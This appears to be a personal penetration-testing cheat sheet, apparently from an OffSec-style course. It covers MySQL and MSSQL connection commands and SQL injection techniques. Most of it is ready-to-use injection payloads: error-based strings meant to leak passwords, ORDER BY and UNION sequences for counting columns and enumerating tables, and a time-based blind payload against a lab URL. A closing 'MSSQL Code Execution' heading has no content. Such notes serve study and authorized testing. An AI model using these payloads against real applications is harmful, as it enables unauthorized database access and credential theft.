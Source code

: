 
##### Note: make sure to check for error messages.
#### Connecting to MySQL
```
mysql -h TARGET_IP -u USERNAME -p   // Remote authentication with username and password
```

```
SELECT @@VERSION;               // Print the SQL version
SELECT system_user();           // Print the current user. Note: this is the database-specific user, it may not be the user of the same name in the system.

SHOW databases;
USE DATABASE_NAME;
SHOW tables;
```


#### MSSQL basics
```
impacket-mssqlclient USER:PASSWORD@IP_ADDRESS -windows-auth
SELECT @@VERSION;

SELECT name FROM master.dbo.sysdatabases               // Show databases
SELECT * FROM TARGET_DB.information_schema.tables;     // Show tables


```


#### Enabled error messages
```
' or 1=1 in (select @@version) -- -                 
' or 1=1 in (SELECT password FROM users) -- -         // might show the passwords in the error message.
```


#### MySQL UNION injection
First, use these payloads ascending until an error occurs:
```
' ORDER BY 1-- -
' ORDER BY 2-- -
' ORDER BY 3-- -
```
The last number before the error is the amount of columns in the request. Then, use this payload with the appropriate amount of columns:
```
' UNION SELECT @@version -- -
' UNION SELECT null, @@version -- -
...
' UNION SELECT null, null, database(), user(), @@version  -- -
```
If the payload works, it's time to read the database tables:
```
' union select table_name from information_schema.columns where table_schema=database() -- -
' union select null, table_name from information_schema.columns where table_schema=database() -- -
...
' union select null, null, null, null, table_name from information_schema.columns where table_schema=database() -- -
// options: table_name, column_name, table_schema,
```

If a table is found:
```
' UNION SELECT null, COLUMN_NAME FROM TABLE_NAME -- 
```

#### Blind SQLI
```
http://192.168.50.16/blindsqli.php?user=offsec' AND IF (1=1, sleep(3),'false') -- -
```




#### MSSQL Code Execution
